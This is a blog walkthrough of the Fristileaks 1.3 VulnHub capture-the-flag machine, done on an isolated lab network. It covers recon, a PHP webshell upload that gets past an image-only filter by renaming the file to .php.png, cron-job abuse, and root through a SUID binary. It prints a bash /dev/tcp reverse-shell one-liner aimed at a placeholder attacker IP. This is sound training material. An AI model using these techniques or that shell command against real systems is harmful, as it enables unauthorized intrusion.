 Title: Frisitleaks 1.3
Date: 2018-11-30
Modified: 2018-11-30
Category: ctf
Tags: ctf, vulnhub
Slug: fristileaks
Authors: Riley
Summary: Guide to the Fristileaks 1.3 VulnHub box.

## Description

A small VM made for a Dutch informal hacker meetup called Fristileaks.
Meant to be broken in a few hours without requiring debuggers, reverse engineering, etc..

## Setup

The virtual machine requires DHCP, and you have to manually set the machine's MAC address to `08:00:27:A5:A6:76`.
My setup runs on an isolated network `10.100.100.0/24`, and the attacking box is at `10.100.100.99/24`.
You can find the box [here][0] to folow along or do yourself.


# Reconnaissance

First we should verify that the box is online. After, we can determine what services are running on the target.

#### Netdiscover
![netdiscover](/images/ctf/fristileaks/netdiscover.png "Netdiscover")

#### Nmap
```text
# Nmap 7.70 scan initiated  as: nmap -T4 -sC -sV -oA nmap/fristileaks 10.100.100.133
Nmap scan report for 10.100.100.133
Host is up (0.00032s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done -- 1 IP address (1 host up) scanned in 24.75 seconds
```

From this, we can determine that the target is running an Apache webserver on port 80.
Further scans did not reveal any other external services.

Using a browser to navigate to the site reveals a colourful webpage, but nowhere obvious to go:

![Fristileaks homepage](/images/ctf/fristileaks/homepage.png "Fristileaks homepage")

There is very little content on this page, however nmap found a `http-robots.txt` file that had some directories listed.
Viewing any of them reveals a sneaky trick, and another dead end.

![Not the URL we are looking for](/images/ctf/fristileaks/droid.png "Not the URL we are looking for")

Navigating to `/admin` only leads to a 404 Not Found message, so we will have to input other possible directory or URI names.
Fortunately, we don't have to brute force this puzzle.
By simply going to `/fristi`, one will be rewarded with the following:

![Fristileaks hidden admin page](/images/ctf/fristileaks/adminpage.png "Fristileaks hidden admin page")


# Exploitatin && Gaining Access

A hidden admin portal asking for credentials.
Attempting to bypass the page using typical methods (such as SQLi or default creds) doesn't seem to work.
We can take a look at the rendered HTML source.
In there, we find a few interesting comments.

One a TODO list by 'eezeepz',

![Comment from eezeepz](/images/ctf/fristileaks/admin-comment.png "Comment from eezeepz")

and the other is Base64 encoded.

![Base64 encoded something](/images/ctf/fristileaks/admin-base64.png "Base64 encoded something")

Decoding the B64 text reveals a .png image with the text `keKkeKKeKKeKkEkkEk`.
While quite strange, using `eezeepz:keKkeKKeKKeKkEkkEk` for credentials does work, and redirects us to `/fristi/login_success.php`, with a link to `/fristi/upload.php`.
Progress!

There are some minor restrictions.
The file uploaded must be a PNG, JPG, or GIF image.
Fortunately this is a very simple filter, and easily bypassed.

Simply: locate your PHP webshell of choice (such as `php-reverse-shell.php`, located in `/usr/share/webshells/php` in Kali); copy it to your working directory and modify as needed; rename the file with .png appended (`php-reverse-shell.php.png`); upload the shell, and navigate to `/fristi/uploads/<your-file-name-here>.php.png`.

![Uploading webshell](/images/ctf/fristileaks/upload.png "Uploading webshell")

And just like magic, we now have a shell as the apache user!

![Webshell!](/images/ctf/fristileaks/webshell.png "Webshell!")


# Post-Exploitation

The apache user has very limited privileges, so we should make it our goal to quickly gain access to another user account.

There are three user accounts we could compromise:

![User accounts](/images/ctf/fristileaks/home.png "/home")

Since we don't have read or execute access to any directory but eezeepz, we will have to start there.

Navigating to eezeepz home, there is a slough of system binaries and a file `notes.txt`:

![Content of notes.txt](/images/ctf/fristileaks/notes.png "Content of notes.txt")

The instructions are pretty straightforward.
By listing binaries using full paths in `/usr/bin`, `/home/admin`, and presumably `/home/eezeepz` in a file called `/tmp/runthis`, a cronjob will execute the binaries every minute as `admin`.

My solution to this was to execute `echo "/home/admin/chmod 707 /home/admin" >> /tmp/runthis`, which will allow us to Read, Write, and Execute privileges in `/home/admin` as any user.

![Modifying /home/admin privileges](/images/ctf/fristileaks/chmod.png "Modifying /home/admin privileges")


# Privilege Escalation

Taking a look into the newly accessible directory reveals the previously revealed system binaries, some python scripts, and two text files `cryptedpass.txt` (owned by admin) and `whoisyourgodnow.txt` (owned by fristigod).

The contents of the text files appear to be the output of the `cryptpass.py` script.

![cryptedpass.txt/cryptpass.py](/images/ctf/fristileaks/cryptpass.png "The contents of cryptedpass.txt and cryptpass.py")

The python script takes a string argument, encodes it in Base64, and then reverses the string and modifies it with ROT13.
This isn't encryption, it's encoding, and passwords should never be encrypted or encoded.

It's very easy to reverse this process, especially using [CyberChef][1].

![Reversing cryptedpass.txt](/images/ctf/fristileaks/rev-cryptedpass.png "Reversing cryptedpass.txt")
![Reversing whoisyourgodnow.txt](/images/ctf/fristileaks/rev-whoisyourgodnow.png "Reversing whoisyourgodnow.txt")

At this point I uploaded the php-reverse-shell.php and caught it with Ncat, as the webshell I was isn't a terminal.

![su admin](/images/ctf/fristileaks/su-admin.png "su admin")
![su fristigod](/images/ctf/fristileaks/su-fristigod.png "su fristigod")


# Getting Root

Despite being called admin, I determined that the account did not have sufficient rights to use sudo.
Fristigod, on the other hand, has access to a single binary.

![One true binary](/images/ctf/fristileaks/fristigod-sudo-l.png "One true binary")

Fristigod may run sudo as user 'fristi' to execute `/var/fristigod/.secret_admin_stuff/doCom`.
What is `doCom`?
In our case, it's a SUID binary owned by root.

![doCom](/images/ctf/fristileaks/doCom.png "doCom")

Let's verify that it runs as root.

![Testing execution](/images/ctf/fristileaks/exec-test.png "Testing execution")

Excellent!
This means that we can execute a simple reverse shell and gain access to root. I like `bash -i >& /dev/tcp/<ATTAKCER-IP>/<PORT> 0>&1` from [pentestmonkey][2], though it is insecure.

![Getting root](/images/ctf/fristileaks/get-root.png "Getting root")

![Got root](/images/ctf/fristileaks/got-root.png "Got root")
 


[0]: https://www.vulnhub.com/entry/fristileaks-13,133/
[1]: https://github.com/gchq/CyberChef
[2]: http://pentestmonkey.net/